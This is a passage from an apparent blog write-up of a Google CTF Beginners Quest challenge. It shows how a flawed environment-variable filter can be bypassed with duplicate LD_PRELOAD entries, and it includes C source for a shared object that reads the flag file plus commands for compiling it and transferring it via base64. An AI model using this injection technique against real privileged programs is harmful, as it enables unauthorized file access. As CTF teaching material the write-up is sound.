 The function iterates through the `unsafe` array, evaluates the existence of each environment variable—if it exists in the environment, sets it to an empty string.

There's a problem with this approach. Suppose there are two identical environment variables in the environment, `filter_env` will filter the first one and leave out the second one because the `getenv` function returns the pointer to the first matching environment variable.

Armed with this information, we can provide two identical unsafe environment variables, filter the first one and load the second one into the environment.

Let's use the `LD_PRELOAD` environment variable. This is what `ld.so(8)` says about `LD_PRELOAD`.

{% include image.html image_alt="LD_PRELOAD" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/65b9ef7e.png" %}

This should work because `execvp` takes the extern variable `environ` as the environment. Also, `/usr/bin/id` is a dynamically-linked executable and the dynamic loader will honor the `LD_PRELOAD` environment variable.

The shared object loaded in `LD_PRELOAD` should help us read the flag. This simple code `readflag.c` does that.

<div class="filename"><span>readflag.c</span></div>
```c
#include <stdio.h>

void _init() {
	char flag[20]; // the flag is 19 bytes
	FILE *f;
	f = fopen("/home/adminimum/flag", "r");
	fgets(flag, 20, f);
	puts(flag);
}

```

There's one small caveat—the online shell doesn't have `gcc`. I've to compile `readflag.c` locally, compress it, and transfer it over to the online shell through `base64`.

At the local machine, do the following:

```
# gcc -fPIC -shared -nostartfiles -o readflag.so readflag.c
# gzip readflag.so
# base64 readflag.so.gz | tr -d '\n' && echo
```

At the online shell, do the following:

```
$ echo H4sIC...AAA= > /tmp/readflag.so.gz.b64
$ base64 -d < /tmp/readflag.so.gz.b64 > /tmp/readflag.so.gz
$ gunzip /tmp/readflag.so.gz
```
Let's give it a shot.

{% include image.html image_alt="flag" image_src="/assets/images/posts/google-ctf-beginners-quest-part-2/dfba227c.png" %}
